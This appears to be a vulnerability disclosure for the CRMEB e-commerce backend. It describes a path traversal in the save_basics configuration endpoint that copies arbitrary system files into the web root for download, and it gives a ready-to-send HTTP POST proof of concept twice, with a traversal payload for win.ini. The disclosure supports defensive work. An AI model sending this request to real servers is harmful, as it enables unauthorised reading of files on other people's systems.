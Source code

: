 # There is an arbitrary file download vulnerability in the CRMEB backend

There is an arbitrary file download vulnerability in the `app/adminapi/controller/v1/setting/SystemConfig.php `route.

![image](https://github.com/user-attachments/assets/ce8fb063-df39-49b4-9884-ca923b687135)


There is an operation to copy files in the `save_basics` function, and there is no filtering `../`, so the system files can be copied to the website directory to perform arbitrary file reading operations.

![image](https://github.com/user-attachments/assets/02ee639f-f931-4399-887e-fdb0936fd494)


Under normal circumstances, the public directory of the website only contains the website code.

![image](https://github.com/user-attachments/assets/b42ec85f-f547-4739-aeea-be2ac827a576)


First log in to the backend, and then use the following poc

```shell
POST /adminapi/setting/config/save_basics HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8
Authori-zation: 
Content-Length: 72
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/admin/setting/agreement
Cookie: OFBiz.Visitor=10000; _jspxcms=d519070f300b47268e1ab5b4af70c446; cb_lang=zh-cn; PHPSESSID=fa8f42ae7d4d4d2600f5da4b2299930a; WS_ADMIN_URL=ws://127.0.0.1/notice; WS_CHAT_URL=ws://127.0.0.1/msg; uuid=1; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJwd2QiOiJmYTM1NGMxYjBmMTY2MjY2NzUxYTg1NzUxMDgyYTRkMyIsImlzcyI6IjEyNy4wLjAuMSIsImF1ZCI6IjEyNy4wLjAuMSIsImlhdCI6MTczMDcyNDQ3MCwibmJmIjoxNzMwNzI0NDcwLCJleHAiOjE3MzMzMTY0NzAsImp0aSI6eyJpZCI6MSwidHlwZSI6ImFkbWluIn19.3H3NJma1X_ea4yaNfOoq1W-pbmGUfLG5cf8O5d6w7kA; expires_time=1733316470; XDEBUG_SESSION=14746

{
    "weixin_ckeck_file": "../../../../../../../../Windows/win.ini"
}
```

![image](https://github.com/user-attachments/assets/f42c3292-e6a1-4ca7-9007-98e1cd9e81a6)


Successfully copied the `win.ini` system file to the running directory of the website

![image](https://github.com/user-attachments/assets/98900587-825b-4b6a-9aaa-d8e1c379f81a)


And directly access http://127.0.0.1/win.ini to download files

![image](https://github.com/user-attachments/assets/c9a5a904-9f8b-4383-a890-122f4e0afab0)

After dynamic adjustment, you can see that he changed the file from `C:\Users\k\Desktop\shenji\CRMEB-5.4.0\CRMEB-5.4.0\crmeb\public\../../../../ ../../../../Windows/win.ini` was copied to `C:\Users\k\Desktop\shenji\CRMEB-5.4.0\CRMEB-5.4.0\crmeb\public\win. ini`
![image](https://github.com/user-attachments/assets/845154f9-9a58-4cf0-9ea3-347c8fb8ca93)
exp:

```
POST /adminapi/setting/config/save_basics HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8
Authori-zation: 
Content-Length: 72
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/admin/setting/agreement
Cookie: OFBiz.Visitor=10000; _jspxcms=d519070f300b47268e1ab5b4af70c446; cb_lang=zh-cn; PHPSESSID=fa8f42ae7d4d4d2600f5da4b2299930a; WS_ADMIN_URL=ws://127.0.0.1/notice; WS_CHAT_URL=ws://127.0.0.1/msg; uuid=1; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJwd2QiOiJmYTM1NGMxYjBmMTY2MjY2NzUxYTg1NzUxMDgyYTRkMyIsImlzcyI6IjEyNy4wLjAuMSIsImF1ZCI6IjEyNy4wLjAuMSIsImlhdCI6MTczMDc5MDg3MCwibmJmIjoxNzMwNzkwODcwLCJleHAiOjE3MzMzODI4NzAsImp0aSI6eyJpZCI6MSwidHlwZSI6ImFkbWluIn19.HqbAlDHkPOm0WTPajjFq5G1hM9Ow1aBNt_1rzbdkF6Y; expires_time=1733316470; XDEBUG_SESSION=18503

{
    "weixin_ckeck_file": "../../../../../../../../Windows/win.ini"
}
```
